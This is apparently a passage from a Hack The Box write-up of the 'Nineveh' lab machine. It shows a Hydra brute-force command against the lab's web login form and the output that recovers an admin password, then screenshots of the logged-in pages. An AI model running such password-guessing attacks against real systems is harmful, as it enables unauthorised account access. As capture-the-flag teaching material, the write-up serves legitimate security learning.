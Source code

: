 Use the info above with Hydra:

```text
root@kali:~/htb/nineveh# hydra -t 64 -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!"

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-22 16:14:46
[DATA] max 64 tasks per 1 server, overall 64 tasks, 10000 login tries (l:1/p:10000), ~157 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=^USER^&password=^PASS^:Invalid Password!
[STATUS] 8586.00 tries/min, 8586 tries in 00:01h, 1414 to do in 00:01h, 64 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-22 16:15:55
```

We get a password, it's another keyboard walk! Try it on the login page we saw earlier:

![website_login_success](/assets/images/2020-06-24-21-53-55.png)

Not much here, but clicking the Notes button gives us:

![website_department_notes](/assets/images/2020-06-24-21-54-38.png)

We also see this on the address bar:

![website_address_bar](/assets/images/2020-06-24-21-55-06.png)
